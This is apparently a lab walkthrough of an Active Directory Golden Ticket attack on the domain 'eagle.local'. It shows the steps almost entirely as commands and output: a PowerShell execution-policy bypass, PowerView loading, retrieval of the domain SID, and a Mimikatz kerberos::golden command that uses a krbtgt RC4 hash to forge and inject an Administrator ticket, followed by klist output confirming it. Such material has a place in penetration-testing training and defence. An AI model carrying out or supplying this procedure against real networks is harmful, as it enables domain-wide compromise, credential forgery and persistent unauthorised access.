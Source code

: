 ```powershell
cd "C:\Users\bob\Downloads\"
```

```powershell
Set-ExecutionPolicy Bypass -Scope Process -Force
```

```powershell
. .\PowerView.ps1
```

```powershell
Get-DomainSID
```

> DomainSID `S-1-5-21-1518138621-4282902758-752445584`

---

#### Mimikatz `Golden Ticket`

```cmd
kerberos::golden /domain:eagle.local /sid:S-1-5-21-1518138621-4282902758-752445584 /rc4:db0d0630064747072a7da3f7c3b4069e /user:Administrator id:500 /renewmax:7 /endin:8 /ptt
```

```txt
User      : Administrator
Domain    : eagle.local (EAGLE)
SID       : S-1-5-21-1518138621-4282902758-752445584
User Id   : 500
Groups Id : *513 512 520 518 519
ServiceKey: db0d0630064747072a7da3f7c3b4069e - rc4_hmac_nt
Lifetime  : 28/04/2025 11.21.55 ; 28/04/2025 11.29.55 ; 28/04/2025 11.28.55
-> Ticket : ** Pass The Ticket **

 * PAC generated
 * PAC signed
 * EncTicketPart generated
 * EncTicketPart encrypted
 * KrbCred generated

Golden ticket for 'Administrator @ eagle.local' successfully submitted for current session
```

---

#### Check if we have the `Golden Ticket`

```cmd
exit
```

```cmd
klist
```

```txt
Current LogonId is 0:0x19865c

Cached Tickets: (1)

#0>     Client: Administrator @ eagle.local
        Server: krbtgt/eagle.local @ eagle.local
        KerbTicket Encryption Type: RSADSI RC4-HMAC(NT)
        Ticket Flags 0x40e00000 -> forwardable renewable initial pre_authent
        Start Time: 4/28/2025 11:21:55 (local)
        End Time:   4/28/2025 11:29:55 (local)
        Renew Time: 4/28/2025 11:28:55 (local)
        Session Key Type: RSADSI RC4-HMAC(NT)
        Cache Flags: 0x1 -> PRIMARY
```